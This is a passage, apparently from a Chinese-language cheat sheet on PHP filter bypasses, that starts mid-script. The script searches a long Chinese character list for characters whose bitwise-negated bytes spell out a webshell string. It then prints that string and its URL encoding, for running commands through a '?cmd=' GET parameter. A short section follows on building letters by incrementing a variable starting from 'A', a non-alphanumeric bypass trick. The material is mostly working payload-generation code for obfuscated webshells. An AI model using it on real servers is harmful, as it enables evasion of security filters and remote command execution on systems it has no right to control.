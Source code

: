 ```php
吻吭邑囤吮岖牡佑佃伺囱肛肘甸狈鸠彤灸刨庇吝庐闰兑灼沐沛汰沥沦汹沧沪忱诅诈罕屁坠妓姊妒纬玫卦坷坯拓坪坤拄拧拂拙拇拗茉昔苛苫苟苞茁苔枉枢枚枫杭郁矾奈奄殴歧卓昙哎咕呵咙
呻啰咒咆咖帕账贬贮氛秉岳侠侥侣侈卑刽刹肴觅忿瓮肮肪狞庞疟疙疚卒氓炬沽沮泣泞泌沼怔怯宠宛衩祈诡帚屉弧弥陋陌函姆虱叁绅驹绊绎契贰玷玲珊拭拷拱挟垢垛拯荆茸茬荚茵茴荞荠荤
荧荔栈柑栅柠枷勃柬砂泵砚鸥轴韭虐昧盹咧昵昭盅勋哆咪哟幽钙钝钠钦钧钮毡氢秕俏俄俐侯徊衍胚胧胎狰饵峦奕咨飒闺闽籽娄烁炫洼柒涎洛恃恍恬恤宦诫诬祠诲屏屎逊陨姚娜蚤骇耘耙秦
匿埂捂捍袁捌挫挚捣捅埃耿聂荸莽莱莉莹莺梆栖桦栓桅桩贾酌砸砰砾殉逞哮唠哺剔蚌蚜畔蚣蚪蚓哩圃鸯唁哼唆峭唧峻赂赃钾铆氨秫笆俺赁倔殷耸舀豺豹颁胯胰脐脓逛卿鸵鸳馁凌凄衷郭斋
疹紊瓷羔烙浦涡涣涤涧涕涩悍悯窍诺诽袒谆祟恕娩骏琐麸琉琅措捺捶赦埠捻掐掂掖掷掸掺勘聊娶菱菲萎菩萤乾萧萨菇彬梗梧梭曹酝酗厢硅硕奢盔匾颅彪眶晤曼晦冕啡畦趾啃蛆蚯蛉蛀唬唾
啤啥啸崎逻崔崩婴赊铐铛铝铡铣铭矫秸秽笙笤偎傀躯兜衅徘徙舶舷舵敛翎脯逸凰猖祭烹庶庵痊阎阐眷焊焕鸿涯淑淌淮淆渊淫淳淤淀涮涵惦悴惋寂窒谍谐裆袱祷谒谓谚尉堕隅婉颇绰绷综绽
缀巢琳琢琼揍堰揩揽揖彭揣搀搓壹搔葫募蒋蒂韩棱椰焚椎棺榔椭粟棘酣酥硝硫颊雳翘凿棠晰鼎喳遏晾畴跋跛蛔蜒蛤鹃喻啼喧嵌赋赎赐锉锌甥掰氮氯黍筏牍粤逾腌腋腕猩猬惫敦痘痢痪竣翔
奠遂焙滞湘渤渺溃溅湃愕惶寓窖窘雇谤犀隘媒媚婿缅缆缔缕骚瑟鹉瑰搪聘斟靴靶蓖蒿蒲蓉楔椿楷榄楞楣酪碘硼碉辐辑频睹睦瞄嗜嗦暇畸跷跺蜈蜗蜕蛹嗅嗡嗤署蜀幌锚锥锨锭锰稚颓筷魁衙
腻腮腺鹏肄猿颖煞雏馍馏禀痹廓痴靖誊漓溢溯溶滓溺寞窥窟寝褂裸谬媳嫉缚缤剿赘熬赫蔫摹蔓蔗蔼熙蔚兢榛榕酵碟碴碱碳辕辖雌墅嘁踊蝉嘀幔镀舔熏箍箕箫舆僧孵瘩瘟彰粹漱漩漾慷寡寥
谭褐褪隧嫡缨撵撩撮撬擒墩撰鞍蕊蕴樊樟橄敷豌醇磕磅碾憋嘶嘲嘹蝠蝎蝌蝗蝙嘿幢镊镐稽篓膘鲤鲫褒瘪瘤瘫凛澎潭潦澳潘澈澜澄憔懊憎翩褥谴鹤憨履嬉豫缭撼擂擅蕾薛薇擎翰噩橱橙瓢蟥
霍霎辙冀踱蹂蟆螃螟噪鹦黔穆篡篷篙篱儒膳鲸瘾瘸糙燎濒憾懈窿缰壕藐檬檐檩檀礁磷了瞬瞳瞪曙蹋蟋蟀嚎赡镣魏簇儡徽爵朦臊鳄糜癌懦豁臀藕藤瞻嚣鳍癞瀑襟璧戳攒孽蘑藻鳖蹭蹬簸簿蟹
靡癣羹鬓攘蠕巍鳞糯譬霹躏髓蘸镶瓤矗";
function mb_str_split( $string ) {
    return preg_split('/(?<!^)(?!$)/u', $string );
}
foreach (mb_str_split($word) as $c)
{
    $arr[] = $c;
}

for ($x=0;$x<strlen($shell);$x++)
{
    for ($y=0;$y<count($arr);$y++)
    {
        $k = $arr[$y];
        if ($shell[$x] == ~($k{1}))
        {
            $result .= $k;
            $result1 .= "%".bin2hex($k{1});
            break;
        }
    }
}
echo "通过在URL内GET方法提交?cmd=\"具体命令\"";
echo "<br>";
echo "字符串：".$result;
echo "<br>";
echo "URL编码：".$result1;
```

### 自增绕过

```php
<?php
$a=A
echo ++$a;
?>
    输出B
<?php
$a=A
++$a;++$a;++$a;++$a;
echo $a;
?>
    输出E
只要获取A，就可以自增获取BCD...
```
